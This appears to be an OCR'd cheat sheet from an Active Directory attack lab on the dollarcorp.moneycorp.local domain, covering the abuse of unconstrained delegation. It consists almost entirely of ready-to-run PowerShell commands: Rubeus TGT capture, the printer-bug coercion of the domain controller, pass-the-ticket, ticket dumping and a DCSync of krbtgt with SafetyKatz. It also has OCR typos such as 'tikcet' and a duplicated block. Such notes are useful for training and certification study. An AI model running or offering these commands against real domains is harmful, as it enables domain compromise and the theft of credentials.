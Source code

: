 
### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/MS-RPRN.exe -args \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /tikcet:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args lsadump::dcsync /user:dcorp\krbtgt
```
### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /tikcet:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args lsadump::dcsync /user:dcorp\krbtgt
```
